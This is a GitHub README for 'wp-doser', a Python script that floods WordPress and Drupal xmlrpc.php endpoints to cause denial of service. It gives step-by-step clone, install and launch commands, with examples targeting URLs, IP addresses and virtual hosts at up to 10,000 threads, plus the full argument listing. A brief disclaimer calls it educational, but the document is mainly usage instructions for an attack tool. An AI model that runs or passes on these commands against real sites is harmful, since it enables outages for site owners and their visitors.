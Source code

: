 # Wordpress DoSer
Wordpress and Drupal XMLRPC Attack (DoS). XMLRPC is older than WordPress itself. This system was introduced to WordPress to fight the slow internet connection dilemma by helping the users write new posts offline and then uploaded them to the server. The ability to connect WordPress remotely with other applications was only possible with the `xmlrpc.php` file. XMLRPC parsing is vulnerable to a XML based denial of service. **Works on all WordPress sites where xmlrpc.php file manipulation is allowed**

------

# Warining
The author assumes no responsibility for the illegal use of the information provided (the script is educational in nature and its unauthorized implementation is punishable by law)

-----

## Usage
First of all you need to clone this script and install requirements
```bash
$ git clone https://github.com/Kuduxaaa/wp-doser
$ cd wp-doser
$ pip3 install -r requirements.txt
```
All done, requirements is installed now you can use this script
```bash
$ # This is a normal run
$ python3 exploit.py -u URL
```
Aloso you can manual enter threads with `-t` argument and requests multiple with `-m` argument. For example:
```bash
$ python3 exploit.py -u URL -t 10000 -m 100
```
If you want to start this attack on server with ip address
```bash
$ python3 -i IP
```
You can also enter a virtual host if multiple sites are hosted on an ip address
```bash
$ python3 -i IP -v VIRTUALHOST
```
And finnaly, you can see default full help message
```python3
usage: exploit.py [-h] [-u URL] [-i IP] [-v VIRTUALHOST] [-m MULTIPLE]
                 [-t THREADS] [-xp XMLPATH]

optional arguments:

  -h, --help            show this help message and exit
  -u, --url             Target website URL
  -i, --ip              Target website IP Address
  -v, --virtualhost     Target website hostname (if enter only ip)
  -m, --multiple        Repeat several times
  -t, --threads         Threads count
  -xp, --xmlpath        XMLRPC path
```

## Useful links
 - [What is XMLRPC and How You Can Stop Hackers From Using It To Hurt Your Online Business](https://servebolt.com/articles/what-is-xmlrpc-and-how-you-can-stop-hackers-from-using-it-to-hurt-your-online-business/)
 - [ Wordpress XMLRPC DoS ](https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/)
